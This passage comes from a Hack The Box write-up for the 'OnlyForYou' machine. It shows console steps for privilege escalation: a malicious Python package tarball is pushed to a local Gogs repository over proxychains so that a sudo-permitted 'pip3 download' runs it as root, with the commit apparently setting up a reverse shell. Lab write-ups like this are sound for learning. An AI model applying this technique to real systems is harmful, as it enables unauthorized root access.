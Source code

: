 ```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ ls dist
this_is_fine_wuzzi-0.0.1-py3-none-any.whl  this_is_fine_wuzzi-0.0.1.tar.gz
```

We can see our files.

The next step is to create a new repository on `Gogs` using `john` credentials:

![newrepo.JPG](images/newrepo.JPG)

Since `john` can execute `(root) NOPASSWD: /usr/bin/pip3 download http\://127.0.0.1\:3000/*.tar.gz` as `root`, we need to upload the `.tar.gz` file to our repository:
```console
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ proxychains git clone http://127.0.0.1:3000/john/evyatar9-repo
ProxyChains-3.1 (http://proxychains.sf.net)
Cloning into 'evyatar9-repo'...
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:3000-<><>-OK
warning: You appear to have cloned an empty repository.
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou]
└──╼ $ cd evyatar9-repo/
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou/evyatar9-repo]
└──╼ $ cp ../this_is_fine_wuzzi/dist/this_is_fine_wuzzi-0.0.1.tar.gz .
┌─[evyatar9@parrot]─[/hackthebox/OnlyForYou/evyatar9-repo]
└──╼ $ git add --all && git commit -m 'reverse' && proxychains git push
proxychains git push
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-127.0.0.1:1080-<><>-127.0.0.1:3000-<><>-OK
Enumerating objects: 4, done.
Counting objects: 100% (4/4), done.
Delta compression using up to 4 threads
Compressing objects: 100% (3/3), done.
Writing objects: 100% (4/4), 3.02 KiB | 134.00 KiB/s, done.
```